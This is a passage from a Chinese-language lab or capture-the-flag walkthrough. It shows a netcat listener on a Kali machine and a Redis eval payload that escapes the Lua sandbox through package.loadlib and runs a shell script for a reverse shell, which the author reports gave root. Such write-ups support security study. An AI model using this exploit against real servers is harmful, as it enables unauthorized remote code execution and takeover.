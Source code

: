 

在kali上监听3456端口
```
nc -nvlp 3456
```

回到靶机，执行payload
```
eval 'local l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = l(); local f = io.popen("cat /home/dan_smith/shell | bash"); local res = f:read("*a"); f:close(); return res' 0
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/c7c192289ec64bf49358a54a8a51d6ea.png)

成功拿到root权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/c1ba2d73a4904843b224a7748c01347d.png)


